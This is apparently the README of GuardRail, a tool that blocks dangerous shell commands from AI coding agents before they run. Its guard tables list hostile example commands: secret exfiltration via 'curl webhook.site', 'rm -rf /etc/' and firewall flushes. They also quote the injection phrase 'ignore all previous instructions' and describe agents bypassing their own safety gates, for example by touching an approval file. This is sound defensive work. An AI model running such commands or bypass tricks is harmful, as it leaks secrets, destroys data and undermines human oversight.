

<h1 align="center">GuardRail</h1>

[](https://github.com/FvdHMBAI/agent-stack)

<p align="center">
  <strong>Pre-execution security for AI coding agents.</strong><br>
  Guardrails AI validates what LLMs say. GuardRail blocks what AI agents <em>do</em>.<br>
  Open source. Battle-tested. The only pre-execution guard system for the agentic era.
</p>

<p align="center">
  <a href="https://github.com/FvdHMBAI/guardrail/actions"></a>&nbsp;
  <a href="https://github.com/FvdHMBAI/guardrail/stargazers"></a>&nbsp;
  <a href="LICENSE"></a>&nbsp;
  <a href="https://www.npmjs.com/package/guardrail-agent"></a>
</p>

<p align="center">
  <a href="#quick-start">Quick Start</a> · 
  <a href="#18-core-guards">18 Guards</a> · 
  <a href="#how-it-compares">Comparison</a> · 
  <a href="#architecture">Architecture</a> · 
  <a href="#guardrail-pro">Pro</a> · 
  <a href="#eu-ai-act">EU AI Act</a>
</p>

---

<p align="center">
  
</p>

---

## Quick Start

```bash
npx guardrail-agent init
```

That's it. One command. Every command your AI agent runs is now guarded. No config needed.

```bash
guardrail status     # See active guards
guardrail pentest    # Run attack simulation
guardrail disable    # Temporarily disable (for debugging)
guardrail enable     # Re-enable
guardrail uninstall  # Clean removal
```

Works with **Claude Code** out of the box (native hook support). Agent-runtime adapters for Codex CLI and Gemini CLI are planned.

**Requirements:** bash 4+, jq, openssl. Linux or macOS.

---

## The Problem

Your AI coding agent runs commands on your machine. It can delete files, push to production, leak secrets, drop database tables, and burn through your API budget in a runaway loop. Most safety tools validate prompts or outputs. They catch problems **after** they happen.

GuardRail catches them **before the command executes**.

```
Agent: "Let me clean up the repo"
Agent runs: rm -rf /home/developer/project

  ┌─────────────────────────────────────────┐
  │ ✘ BLOCKED by destructive_path_guard     │
  │   rm -rf on protected path /home/       │
  │   Command was NOT executed.             │
  └─────────────────────────────────────────┘
```

Real incidents from our production system that GuardRail stopped:
- `git reset --hard` during debugging. Would have wiped 3 hours of uncommitted work
- `DELETE FROM profiles` without WHERE clause. Would have deleted all user data
- Agent tried to `touch /tmp/approval-gate` to bypass its own safety checks
- 47 consecutive failed curl attempts (wrong port) before the wandering detector intervened

## 18 Core Guards

All free. All MIT-licensed. All battle-tested.

### Pre-execution guards (block before the command runs)

| Guard | What it stops | Example |
|---|---|---|
| `main_push_guard` | Direct push to protected branches, force push, `reset --hard` | `git push origin main` |
| `force_push_guard` | Force push to any branch (`--force`, `--force-with-lease`, `-f`) | `git push --force origin feat` |
| `basic_pii_gate` | Commands that dump environment variables and secrets | `env`, `printenv`, `docker inspect` |
| `basic_secret_detector` | Exfiltration of secrets via curl, wget, or base64 | `curl webhook.site -d "$API_KEY"` |
| `destructive_path_guard` | Recursive deletion on protected system paths | `rm -rf /home/`, `rm -rf /etc/` |
| `firewall_flush_guard` | Flushing iptables, disabling ufw, clearing nftables | `iptables -F`, `ufw disable` |
| `service_protection_guard` | Stopping critical services (docker, sshd, postgres, nginx) | `systemctl stop docker` |
| `mass_update_guard` | SQL UPDATE/DELETE without WHERE clause on protected tables | `DELETE FROM profiles` |
| `self_bypass_guard` | Agent creating its own approval/gate files | `touch /tmp/guardrail-gate-approve` |
| `deploy_branch_guard` | Deploying from non-approved branches | Deploy from `feat/wip` instead of `main` |
| `large_diff_guard` | Commits with unusually large diffs (generated files, node_modules) | 2000-line commit with package-lock |
| `tool_call_budget_guard` | Runaway agents burning through context window and API credits | 50+ tool calls in one session |
| `context_window_guard` | Commands that produce excessive output (unbounded logs, cat) | `cat huge-file.log`, `docker logs` |

### Post-execution guards (scan output after the command runs)

| Guard | What it detects | Example |
|---|---|---|
| `env_dump_detector` | Environment variable dumps in output (even from obfuscated commands) | 10+ KEY=VALUE lines in output |
| `basic_injection_scanner` | Prompt injection attempts in command output | "ignore all previous instructions" |
| `error_swallow_guard` | Empty catch blocks in payment/webhook/cron code | `catch (e) { console.log(e) }` |
| `credential_leak_guard` | API keys, tokens, private keys in command output | AWS keys, Stripe keys, JWTs, SSH keys |
| `wandering_detector` | Trial-and-error loops (3+ consecutive failures) | Wrong port → wrong port → wrong port |
| `self_correction_loop` | Build/test failures that the agent tries to ignore | `Build failed` followed by "done" |

## How It Compares

GuardRail operates at a different layer than other AI safety tools:

| | GuardRail | Guardrails AI | NeMo Guardrails | Lakera Guard |
|---|---|---|---|---|
| **What it guards** | Shell commands before execution | LLM input/output | Conversational AI | Prompt injection |
| **When it acts** | Before the command runs | After LLM responds | During conversation | Before LLM call |
| **Blocks destructive actions** | Yes (rm, push, SQL) | No | No | No |
| **Detects agent self-bypass** | Yes | No | No | No |
| **Detects wandering/loops** | Yes | No | No | No |
| **Credential leak scanning** | Yes (output) | No | No | No |
| **Dependencies** | bash + jq | Python + ML models | Python + LLM calls | SaaS API |
| **Install time** | 5 seconds | Minutes | Minutes | API signup |
| **Cost** | Free (MIT) | Free tier + paid | Free | Paid |
| **Runtime overhead** | <1ms per guard | 50-500ms | 100ms-2s | Network latency |

**They are complementary, not competing.** Use Guardrails AI to validate LLM responses. Use GuardRail to prevent the agent from executing dangerous commands. Defense in depth.

## Architecture

```
AI Coding Agent (Claude Code, Cursor, Copilot, ...)
      │
      ▼
┌─────────────────────────┐
│  Pre-Bash Dispatcher    │  Runs BEFORE every command
│  ┌───────────────────┐  │
│  │ Guard 1: deny()   │──┤──▶ BLOCKED (command never runs)
│  │ Guard 2: pass     │  │
│  │ Guard 3: warn()   │──┤──▶ WARNED  (runs with context)
│  │ ...               │  │
│  └───────────────────┘  │
└─────────────────────────┘
      │
      ▼
┌─────────────────────────┐
│  Command Executes       │
└─────────────────────────┘
      │
      ▼
┌─────────────────────────┐
│  Post-Bash Dispatcher   │  Runs AFTER every command
│  ┌───────────────────┐  │
│  │ Output Scanners   │──┤──▶ Injection, PII, credentials
│  │ Error Detectors   │──┤──▶ Self-correction loops
│  │ State Trackers    │──┤──▶ Wandering, budget tracking
│  └───────────────────┘  │
└─────────────────────────┘
      │
      ▼
   Audit Log (every decision timestamped + hashed)
```

Guards are bash functions. No runtime dependencies beyond bash and jq. Each guard runs in <1ms. The full dispatcher adds <5ms to every command — invisible to the agent.

See [docs/architecture.md](docs/architecture.md) for deep dive.

## Configuration

After installation, customize `~/.guardrail/guardrail.config.sh`:

```bash
# Protected database tables (mass UPDATE/DELETE blocked without WHERE)
GUARDRAIL_PROTECTED_TABLES="auth.users profiles members payments"

# Protected git branches (push blocked)
GUARDRAIL_PROTECTED_BRANCHES="main master production"

# Critical services (stop/kill blocked)
GUARDRAIL_CRITICAL_SERVICES="docker sshd traefik postgresql nginx"

# Protected filesystem paths (rm -rf blocked)
GUARDRAIL_PROTECTED_PATHS="/home/ /etc/ /var/lib/docker /var/lib/postgresql"

# Wandering detector threshold (consecutive failures before block)
GUARDRAIL_WANDERING_THRESHOLD=3

# Tool call budget (warn at 25, block at 50)
GUARDRAIL_TOOL_CALL_WARN=25
GUARDRAIL_TOOL_CALL_MAX=50

# Large diff threshold (lines changed)
GUARDRAIL_MAX_DIFF_LINES=500

# Strict mode (true = block, false = warn only)
GUARDRAIL_STRICT_MODE="true"
```

## Custom Guards

Create your own:

```bash
guardrail new my_custom_guard
```

This generates a guard template with a matching test. Edit the pattern, run the test, done.

```bash
# Example: block npm publish without --dry-run
hook_my_custom_guard() {
  echo "$CMD" | grep -qE 'npm\s+publish' || return 0
  echo "$CMD" | grep -qE '\-\-dry-run' && return 0
  deny "npm publish without --dry-run is blocked. Add --dry-run first."
}
```

See [docs/writing-guards.md](docs/writing-guards.md) for the full guide.

## CLI

```bash
$ guardrail status

  GuardRail v0.3.0

  18 core guards active
  2 pro guards

  Audit: 142 blocked / 1,847 total (7.7% block rate)

$ guardrail pentest

  Phase 3: Attack Simulation
  ✘ BLOCKED push to main
  ✘ BLOCKED force push
  ✘ BLOCKED rm -rf /etc
  ✘ BLOCKED self-bypass attempt
  ✘ BLOCKED mass DELETE
  ✓ ALLOWED push develop (correct)
  ✓ ALLOWED rm single file (correct)

  All 103 tests passed. 0 false positives.
```

## GuardRail Pro

Advanced guards derived from real production incidents:

| Capability | Why it matters |
|---|---|
| **Script content analysis** | Agent writes payload to file, then runs it — bypasses command-line guards |
| **Multi-step attack detection** | Credential scan followed by exfiltration — blocked on step 2 |
| **PII Shield v2** | ML-powered personal data detection in output (SSN, tax IDs, addresses) |
| **Supply chain audit** | `npm install` with known-vulnerable or restrictively-licensed packages |
| **EU AI Act compliance kit** | Guard-to-article mapping, PDF audit reports for regulators |

Plus: Penetration test framework (50+ attack patterns), priority support, compliance documentation.

**EUR 29/dev/month** | [Get started](https://guardrail.promptandbuild.de)

## EU AI Act

Using a coding agent does not automatically make a system "high-risk" under the EU AI Act. Classification depends on the system's purpose and context. GuardRail provides technical evidence for a broader governance program:

| Article | Requirement | How GuardRail helps |
|---|---|---|
| Art. 9 | Risk management | Guard classification, penetration test framework |
| Art. 14 | Human oversight | `deny()` gates with admin approval workflows |
| Art. 12 | Record-keeping | Timestamped audit log with content hashes |

These controls do not create legal compliance alone. Full mapping available in GuardRail Pro.

## Security Model

GuardRail is a **seatbelt, not a jail cell**. It is an additional enforcement layer, not a sandbox.

**What it stops:** Accidental damage and most optimization-driven bypasses. AI agents routinely try to work around obstacles to complete their task. They don't plan an escape, but they will try `python3 -c "..."` when `rm` is blocked, or write a gate file when one is missing. GuardRail catches these patterns with layered defenses: interactive terminal checks, HMAC-signed tokens, pattern-based command blocking, and audit logging.

**What it does not stop:** A determined attacker with same-user access who deliberately crafts novel bypass techniques. Since the agent runs as the same OS user, true isolation requires OS-level controls (separate users, containers, network policies).

**Your security stack should be:**
1. **GuardRail**: catches 99% of real incidents (accidental + optimization-driven)
2. **Branch protection**: prevents force-pushes even if the guard is bypassed
3. **OS permissions**: separate users for production databases
4. **Network controls**: restrict what the agent can reach

See [SECURITY.md](SECURITY.md) for vulnerability reporting.

## Battle-Tested

GuardRail patterns are extracted from a production system running **170+ guards across 13 applications since 2025**. The public guards are the universal subset — they work for any codebase, any team, any agent.

Every guard in this repository has prevented a real incident.

## Works With

- **Claude Code** — native hook support, zero configuration
- **Any bash-based agent** — source the dispatcher in your wrapper

Adapters planned for: Codex CLI, Gemini CLI, Aider, Continue.dev

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md). Browse [good first issues](https://github.com/FvdHMBAI/guardrail/issues?q=is%3Aissue+is%3Aopen+label%3A%22good+first+issue%22).

## Part of AgentStack

GuardRail is free and always will be. For teams that need the full governance stack (GuardRail Pro + Compliance Shield + priority support), see [AgentStack Pro](https://github.com/FvdHMBAI/agent-stack/blob/main/BUNDLE.md) (EUR 79/dev/month).

## License

MIT. See [LICENSE](LICENSE).

---

<p align="center">
  Built by <a href="https://promptandbuild.de">Prompt & Build</a>.<br>
  Patterns extracted from production systems running 170+ guards across 13 applications.
</p>

<p align="center">
  If GuardRail keeps your agent safe, consider giving it a <a href="https://github.com/FvdHMBAI/guardrail">⭐</a>. It helps others find it.
</p>
